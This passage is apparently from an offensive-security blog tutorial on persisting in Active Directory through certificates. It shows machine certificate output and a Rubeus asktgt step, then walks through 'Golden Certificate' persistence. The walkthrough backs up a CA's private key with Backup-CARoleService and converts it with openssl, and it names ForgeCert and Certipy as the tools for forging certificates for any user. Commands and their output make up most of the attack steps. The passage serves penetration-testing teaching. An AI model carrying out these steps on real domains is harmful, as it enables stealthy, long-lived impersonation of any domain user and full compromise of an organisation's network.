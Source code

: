 ```powershell
SignatureAlgorithm   : System.Security.Cryptography.Oid
Thumbprint           : 8E19E0FFE7DECD870DE249017F0C548DCDE79A8F
Version              : 3
Handle               : 2539689363184
Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
Subject              : CN=SRV-01.CORP.LOCAL
```

With the machine certificate in hand, the next step is simply to perform an **asktgt** with the ticket and its password using Rubeus, and boom, you now have persistence on the target machine.

A characteristic of machines is that their passwords are changed every 30 days, but as we learned in this article about UnPAC, this is no longer a problem for us 🙄.


## Golden Certificate persistence

The Golden Certificate, in essence, is nothing more than the certificate of the CA (Certification Authority), but what can we do with it?

A CA uses its private key to sign certificates, and if an attacker manages to extract it, they can sign any certificate and, by extension, impersonate any domain user.

Let's head to the lab. We need to perform some steps like:
- Backup the CA's private keys to a .p12 format.
- Convert the .p12 to .pem and then to .pfx.
- Use tools like [ForgeCert](https://github.com/GhostPack/ForgeCert) or [Certipy](https://github.com/ly4k/Certipy) to issue the certificate for the user we want to impersonate.

```powershell
Backup-CARoleService C:\Tools\CA-Backup -Password (ConvertTo-SecureString "Senha" -AsPlainText -Force)

dir .\CA-Backup\

Directory: C:\Tools\CA-Backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/01/2025     02:22                DataBase
-a----        11/01/2025     02:22           2597 CORP-CA.p12
```

Now, let's take this **.p12** file to the attacking machine. Remember that tools like **Certipy** can extract the CA certificate remotely, but they require domain administrator privileges.

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.p12 -out C:\Tools\CORP-CA.pem

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem

C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "C:\Tools\CORP-CA.pfx"

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem
-a----         1/11/2025   2:30 AM           2587 CORP-CA.pfx
```
